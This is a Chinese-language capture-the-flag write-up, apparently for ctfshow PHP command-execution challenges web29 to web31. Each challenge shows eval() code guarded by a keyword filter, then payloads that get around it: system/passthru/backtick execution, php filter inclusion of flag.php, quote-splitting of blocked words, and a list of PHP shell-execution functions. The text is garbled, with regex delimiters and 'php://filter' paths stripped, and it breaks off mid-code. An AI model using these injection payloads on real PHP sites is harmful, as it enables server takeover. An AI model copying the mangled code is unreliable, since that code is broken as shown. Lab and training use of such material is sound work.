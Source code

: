 传入c=echo hello;php system(ls);看到有flag.php ,利用文件包含。

构造：

c=echo hello;php include($_GET['a']);&a=phpfilterread=convert.base64-encoderesource=flag.php
得到一串base64 字符串，解码得到

php
​
$flag='flag{73c6fd37-47f1-47a4-a9a3-df83ae757139}';
​
web30~增加命令执行函数
命令执行，需要严格的过滤
代码：

php
​
error_reporting(0);
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match(flagsystemphpi, $c)){
eval($c);
}

}else{
highlight_file(__FILE__);
}
在上一题的基础上增加了过滤。flag、system、php

但是我们依然可以用到其他函数进行代替。

system()
passthru()   # passthru — 执行外部程序并且显示原始输出
exec()       # exec — 执行一个外部程序  
shell_exec() # shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec()
这里需要注意一下，只有system函数是有回显的，其他的函数可以通过echo等显示

c=echo passthru(cat f);
c=echo `cat f`;
或者

c=echo hello; include($_GET['url']); &url=phpfilterread=convert.base64-encoderesource=flag.php
题目wp

echo `nl fl''ag.p''hp`;
web31~过滤cat,空格
命令执行，需要严格的过滤
源码：

php
    
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match(flagsystemphpcatsortshell. 'i, $c)){
        eval($c);
    }
    